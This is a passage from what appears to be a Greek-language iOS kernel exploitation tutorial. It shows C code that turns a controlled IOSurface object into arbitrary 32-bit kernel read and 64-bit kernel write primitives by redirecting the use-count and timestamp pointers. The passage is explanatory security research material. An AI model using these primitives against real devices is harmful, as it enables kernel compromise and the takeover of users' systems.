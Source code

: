 ```c
return 0;
}
```
### Επίτευξη ανάγνωσης/εγγραφής του πυρήνα με IOSurface

Μετά τον έλεγχο ενός αντικειμένου IOSurface στη μνήμη του πυρήνα (mapped σε μια freed physical page προσβάσιμη από userspace), μπορούμε να το χρησιμοποιήσουμε για **arbitrary kernel read and write operations**.

**Βασικά Πεδία στο IOSurface**

Το αντικείμενο IOSurface έχει δύο κρίσιμα πεδία:

1. **Use Count Pointer**: Επιτρέπει ένα **32-bit read**.
2. **Indexed Timestamp Pointer**: Επιτρέπει ένα **64-bit write**.

Με την υπερχείλιση αυτών των δεικτών, τους ανακατευθύνουμε σε αυθαίρετες διευθύνσεις στη μνήμη του πυρήνα, ενεργοποιώντας δυνατότητες read/write.

#### 32-Bit Kernel Read

Για να εκτελέσετε μια ανάγνωση:

1. Αντικαταστήστε το **use count pointer** ώστε να δείχνει στη διεύθυνση-στόχο μείον 0x14-byte offset.
2. Χρησιμοποιήστε τη μέθοδο `get_use_count` για να διαβάσετε την τιμή σε εκείνη τη διεύθυνση.
```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
uint64_t args[1] = {surfaceID};
uint32_t size = 1;
uint64_t out = 0;
IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
uint64_t orig = iosurface_get_use_count_pointer(info.object);
iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
uint32_t value = get_use_count(info.client, info.surface);
iosurface_set_use_count_pointer(info.object, orig);
return value;
}
```
#### 64-Bit Kernel Write

Για να πραγματοποιήσετε μια εγγραφή:

1. Αντικαταστήστε τον **δείκτη ευρετηριασμένης χρονοσφραγίδας** με τη διεύθυνση-στόχο.
2. Χρησιμοποιήστε τη μέθοδο `set_indexed_timestamp` για να γράψετε μια 64-bit τιμή.
```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
uint64_t args[3] = {surfaceID, 0, value};
IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
iosurface_set_indexed_timestamp_pointer(info.object, addr);
set_indexed_timestamp(info.client, info.surface, value);
iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
#### Ανακεφαλαίωση Ροής Exploit
